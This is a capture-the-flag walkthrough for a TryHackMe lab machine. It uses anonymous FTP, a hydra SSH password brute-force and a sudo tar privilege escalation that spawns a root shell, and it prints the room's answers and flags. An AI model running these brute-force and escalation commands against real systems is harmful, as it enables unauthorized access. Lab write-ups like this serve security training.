 # Try Hack Me - Bounty Hacker

setup variable IP for easy use
```bash
export IP=10.10.14.22
```

# TASK 1

```bash
nmap -sC -sV -oN nmap/initial $IP
```

Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 16:24 EDT
Nmap scan report for 10.10.14.22
Host is up (0.14s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:                                                                             
|      Connected to ::ffff:10.6.57.243                                                           
|      Logged in as ftp                                                                          
|      TYPE: ASCII                                                                               
|      No session bandwidth limit                                                                
|      Session timeout in seconds is 300                                                         
|      Control connection is plain text                                                          
|      Data connections will be plain text                                                       
|      At session startup, client count was 3                                                    
|      vsFTPd 3.0.3 - secure, fast, stable                                                       
|_End of status                                                                                  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                
| ssh-hostkey:                                                                                   
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)                                   
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)                                  
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)                                
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                              
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                     
|_http-title: Site doesn't have a title (text/html).                                             
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel            
```

Q. Who wrote the task list? 
A. lin

There's nothing on the web site and dirbuster produced no new subdirectories. let's try anonymous FTP

```bash
ftp anonymous@10.10.14.22
ls
```
less task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

less locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
etc......

```

Q. What service can you bruteforce with the text file found? 
A. SSH

Now we have her username we can attack ssh with hydra. Also the locks.txt file looks like passwords. Let's try those first.

Q. What is the users password?
A. RedDr4gonSynd1cat3

```bash
hydra -l lin -P /home/username/Documents/THM/Bounty_hunter/locks.txt ssh://10.10.14.22
```

Q. user.txt
A. THM{CR1M3_SyNd1C4T3}

```bash
ssh lin@10.10.14.22
cat user.txt
```

Q. root.txt
A. THM{80UN7Y_h4cK3r}

```bash
sudo -l
```

Results

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick look to GTfoBins - https://gtfobins.github.io/gtfobins/tar/

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

we're root

cat out the file

```bash
cat /root/root.txt
```

Done!
